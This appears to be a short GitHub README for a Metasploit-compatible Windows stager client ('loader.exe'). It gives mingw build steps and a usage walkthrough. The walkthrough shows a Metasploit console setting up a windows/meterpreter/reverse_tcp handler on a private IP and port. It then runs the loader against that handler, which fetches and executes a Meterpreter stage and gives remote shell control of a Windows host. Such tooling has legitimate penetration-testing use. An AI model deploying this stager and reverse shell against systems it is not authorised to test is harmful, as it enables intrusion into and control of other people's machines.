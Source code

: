 A quick stager client compatible with the Metasploit Framework

Reference:

1. http://mail.metasploit.com/pipermail/framework/2012-September/008660.html
2. http://mail.metasploit.com/pipermail/framework/2012-September/008664.html

Use:

1. Start a multi/handler with your favorite windows reverse_tcp payload
2. Run: loader.exe [host] [port]

How to compile:

1. Install mingw
2. Edit build.bat if mingw is installed somewhere other than c:\mingw
3. run build.bat

ToDo:

1. 64-bit compatability (see message #2)
2. get a Windows build environment with make

How to use:
```
msf > use exploit/multi/handler 
msf  exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf  exploit(handler) > set LPORT 31337
LPORT => 31337
msf  exploit(handler) > set LHOST 192.168.95.241
LHOST => 192.168.95.241
msf  exploit(handler) > exploit -j
```

loader.exe 192.168.95.241 31337
